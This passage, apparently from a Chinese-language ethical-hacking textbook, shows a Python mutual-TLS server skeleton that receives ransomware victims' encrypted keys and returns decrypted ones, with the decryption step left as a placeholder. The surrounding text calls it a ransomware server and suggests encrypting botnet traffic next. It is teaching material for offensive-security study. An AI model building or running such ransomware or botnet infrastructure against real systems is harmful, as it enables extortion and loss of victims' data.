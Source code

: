```
   context.verify_mode = ssl.CERT_REQUIRED

   context.load_verify_locations(cafile=client_cert)

   context.load_cert_chain(certfile=server_cert, keyfile=server_key)

   context.options |= ssl.OP_SINGLE_ECDH_USE

   context.options |= ssl.OP_NO_TLSv1 | ssl.OP_NO_TLSv1_1 | ssl.OP_NO_TLSv1_2

➋ def handler(conn):

       encrypted_key = conn.recv(4096).decode()

       #----------------------------------

       #  Add your decryption code here

       #----------------------------------

       conn.send(decrypted_key.encode())

       conn.close()

   with socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0) as sock:

        sock.bind(('', port))

     ➌ sock.listen(5)

        with context.wrap_socket(sock, server_side=True) as ssock:

           while True:

           ➍ conn, addr = ssock.accept()

              print(addr)

           ➎ handlerThread = threading.Thread(target=handler, args=(conn,))

              handlerThread.start()
```

随时可以使用你在本章之前生成的证书*client.crt*和*server.crt*，以及密钥*server.key*和*client.key*。你需要指定它们的文件路径 ➊。此外，如果你在之前的章节没有安装`thread`库，你可能需要在这里使用`pip`进行安装。

我定义了处理每个传入连接的函数 ➋。你将在这里添加解密代码。然后，我们设置了一个五个连接的待处理队列 ➌。随着新连接的到来，它们将被添加到待处理队列中，每处理一个连接，就将其从队列中移除。我们不断地接受新连接 ➍，并为每个连接创建一个新线程来处理。

实现了安全的勒索软件服务器后，尝试加密你的僵尸网络通信。
